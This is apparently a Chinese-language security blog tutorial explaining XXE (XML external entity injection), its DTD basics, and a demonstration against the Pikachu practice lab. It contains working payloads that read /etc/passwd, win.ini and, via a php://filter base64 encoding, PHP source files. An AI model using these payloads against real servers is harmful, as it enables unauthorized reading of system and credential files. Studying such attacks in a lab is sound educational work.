 ```yaml
---
title: XXE漏洞
date: 2023-09-19 11:36:50
tags:
- web漏洞
categories:
- web漏洞
---
```




# XXE漏洞介绍



XXE -"xml external entity injection"
既"xml外部实体注入漏洞"。
概括一下就是"攻击者通过向服务器注入指定的xml实体内容,从而让服务器按照指定的配置进行执行,导致问题"
也就是说服务端接收和解析了来自用户端的xml数据,而又没有做严格的安全控制,从而导致xml外部实体注入。

xml是一种可拓展的标记语言，可以用来存储数据，例如：我们经常看到一些.xml的文件；它还可以用来传输数据，我们可以直接将数据以xml的格式放在请求当中，发给服务器。

**第一部分：XML声明部分**

```
<?xml version="1.0"?>
```

**第二部分：文档类型定义 DTD**

```
<!DOCTYPE note[
<!--定义此文档是note类型的文档-->
<!ENTITY entity-name SYSTEM "URI/URL">
<!--外部实体声明-->
]>
```

**第三部分：文档元素**

```
<note>
<to>Dave</to>
<from>Tom</from>

<head>Reminder</head>

<body>You are a good man</body>
</note>
```

**DTD**（Document Type Definition，文档类型定义），用来为 XML 文档定义语法约束，可以是内部申明也可以使引用外部.

DTD现在很多语言里面对应的解析xml的函数默认是禁止解析外部实体内容的，从而也就直接避免了这个漏洞**。**

**内部申明DTD格式**

```
<!DOCTYPE 根元素 [元素申明]>
```

**外部引用DTD格式**

```
<!DOCTYPE 根元素 SYSTEM "外部DTD的URI">
```



**引用公共DTD格式**

```
<!DOCTYPE 根元素 PUBLIC "DTD标识名" "公共DTD的URI">
```


**外部实体例**

**外部实体引用 Payload**

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
```

外部引用可以支持http，file，ftp等协议。

**如果一个接口支持接收xm|数据，且没有对xml数据做任何安全上的措施，就可能导致XXE漏洞**

simplexml_load_string()

函数转换形式良好的XML 字符串为 **SimpleXMLElement** 对象。

在PHP 里面解析 xml 用的是 libxml, 其在 2.9.0 的版本中 默认是禁止解析 xml 外部实体内容的。

**XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致攻击者可以构造一个恶意的XML**



# XXE漏洞演示

打开pikachu的xxe，我们先查看他的后端代码，我们可以看到他是通过post请求来获取到前端的xml数据，然后直接给simplexml_load_string()函数进行解析，然后将解析的数据再返回到前端

[![img](../资源文件/图片/2054866-20200927221835527-120126346.png)

 

 接着我们在pikachu中用一段正常的xml来测试一下



```
<?xml version = "1.0"?>
<!DOCTYPE note [
    <!ENTITY hacker "XXE hahaha">
]>
<name>&hacker;</name>
```

[![img](../资源文件/图片/2054866-20200927222358667-2001801420.png)

 

 可以看到直接将我们DTD中的值给返回了

接这我们来构造一个恶意的payload，通过外部实体引用从而去获取后台服务器的本地文件信息(注：外部引用可以支持http，file，ftp等协议。)



```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "file://etc/passwd">
]>
<x>&f;</x>
```

点击提交后，可以看到将指定文件给读取出来了

[![img](../资源文件/图片/2054866-20200927222741070-597655972.png)

 

**正常读php文件**

```
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE a[
        <!ENTITY xxe SYSTEM 'file:///c:windows/win.ini'>		//'c:/windows/win.ini'也行
]>

<user><username>&xxe;</username><password>admin</password></user>
```

![image-20230919150732435](../资源文件/图片/image-20230919150732435.png)



**编码读php文件**

```
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE a[
        <!ENTITY xxe SYSTEM 'php://filter/read=convert.base64-encode/resource=d:/phpstudy_pro/WWW/1.php'>
]>

<user><username>&xxe;</username><password>admin</password></user>
```

![image-20230919150101123](../资源文件/图片/image-20230919150101123.png)





 总结：后端在接收xml数据时，开启了外部实体解析，而且也没对传来的数据做任何的过滤等安全措施。
